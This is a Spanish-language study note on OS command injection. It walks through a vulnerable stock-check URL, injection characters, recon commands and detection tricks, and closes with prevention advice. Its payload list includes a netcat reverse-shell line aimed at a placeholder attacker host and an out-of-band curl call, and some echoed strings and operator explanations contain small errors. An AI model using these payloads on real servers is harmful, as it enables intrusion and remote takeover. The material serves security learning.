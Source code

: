 ## 🚧 OS Command Injection

---

# 🔐 ¿Qué es OS Command Injection?

**OS Command Injection** (tambien conocido como **Shell Injection**) es una vulnerabilidad que ocurre cuando una aplicación web permite que un atacante inyecte y ejecute **comandos arbitrarios del sistema operativo** en el servidor.

Cuando esto ocurre, el atacante puede:

- Ejecutar comandos con los mismos privilegios que el proceso vulnerable (por ejemplo, el usuario del servidor web).
- Acceder a archivos sensibles, credenciales, servicios de red internos.
- En muchos casos, escalar privilegios o pivotear hacia otros sistemas internos.

> 🚀 Es una de las vulnerabilidades **más críticas** que puede sufrir una aplicación web.

---

# 🔹 Ejemplo de funcionamiento vulnerable

### Contexto:

Una tienda online permite consultar el stock de un producto en una sucursal específica mediante la siguiente URL:

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

En el backend, el sistema ejecuta el siguiente comando en una terminal para consultar el stock en sistemas legados:

```bash
stockreport.pl 381 29
```

El problema aparece cuando los valores de `productID` y `storeID` son inyectados directamente en el comando del sistema **sin ninguna validación o sanitización**.

---

# 🚨 Explotación básica

El atacante puede enviar lo siguiente como valor de `productID`:

```
& echo aiwefwlguh &
```

El comando resultante que se ejecuta es:

```bash
stockreport.pl & echo aiwefwlguh & 29
```

Lo que ejecuta:
1. `stockreport.pl` (sin argumentos, produce un error).
2. `echo aiwefwlguh` (el string aparece en la salida).
3. `29` (interpreta `29` como un comando, produce un error).

### Resultado en pantalla:
```
Error - productID was not provided
aioefwguh
29: command not found
```

### 🔗 Caracteres de inyección comunes en Linux:

| Carácter | Funcón |
|----------|--------|
| `&` | Ejecuta comandos en secuencia (se ejecutan simultáneamente). |
| `;` | Separa comandos independientes. |
| `\|` | Pipe: conecta la salida de un comando con otro. |
| `\|\|`, `&&` | Condicionales: ejecuta solo si el anterior falla(`\|\|`)/exitoso (`&`). |
| `\`` o `$()` | Ejecuta comandos en subshell. |

### 🔗 Ejemplo de payloads:

```bash
productID=381; whoami
productID=381 && ls /
productID=381 | nc attacker.com 4444 -e /bin/bash
productID=381$(id)
```

---

# 🔢 Variantes por sistema operativo

### 🌎 Linux:

| Comando | Descripción |
|---------|-------------|
| `id` | Muestra el usuario actual. |
| `uname -a` | Info del kernel y sistema. |
| `cat /etc/passwd` | Usuarios del sistema. |
| `netstat -tuln` | Puertos abiertos. |

### 🌊 Windows:

| Comando | Descripción |
|---------|-------------|
| `whoami` | Usuario actual. |
| `dir` | Lista archivos del directorio. |
| `ipconfig` | Info de red. |
| `type C:\\Windows\\win.ini` | Leer archivo clásico para prueba. |

> ⚠️ En Windows, los comandos se pueden inyectar con `&`, `&&`, `|`, `^`.

---

# 🔒 Técnicas para detectar OS Command Injection

1. **Inyección de comandos de eco:**
   ```bash
   & echo testcmd &
   ```
   Si "testcmd" aparece en la respuesta, hay ejecución.

2. **Retraso por tiempo (blind):**
   ```bash
   ; sleep 10
   ```
   Si la respuesta demora, el comando fue ejecutado aunque no haya salida visible.

3. **Out-of-Band (OAST):**
   ```bash
   ; curl http://your-burpcollaborator.net
   ```
   Se usa para detectar ejecución si no hay respuesta directa (blind RCE).

[Lab: OS command injection, simple case](1_OS_command_injection_simple_case.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green)  

---

# 🚫 Cómo prevenir OS Command Injection

### ✅ 1. Evitar construir comandos con datos del usuario
- Usar APIs del lenguaje que **no invocan shell** (por ejemplo, `subprocess.run()` en Python con `shell=False`).

### ✅ 2. Validar estrictamente la entrada
- Usar **listas blancas** (whitelisting) para los argumentos esperados.
- Rechazar cualquier caracter especial como `;`, `&`, `|`, `>`.

### ✅ 3. Uso de privilegios mínimos
- El proceso que ejecuta el comando debe correr como un usuario **con permisos limitados**.

### ✅ 4. Escape adecuado de argumentos
- Si realmente se deben usar en comandos, escapar correctamente según el sistema operativo.

---

# 🎓 Conclusión

**OS Command Injection** es una de las vulnerabilidades más críticas debido a su capacidad de proporcionar al atacante **acceso directo al sistema operativo** del servidor. Con pocos caracteres, un atacante puede escalar desde un acceso limitado hasta tomar control completo del entorno.

La prevención se basa en:
- **No confiar nunca en la entrada del usuario**.
- Evitar ejecutar comandos innecesariamente.
- Implementar validaciones estrictas y usar métodos seguros para ejecutar procesos si es inevitable.

> ⚠️ Como pentester, la detección de OS command injection puede ser sutil, pero los resultados son devastadores cuando se explota correctamente.

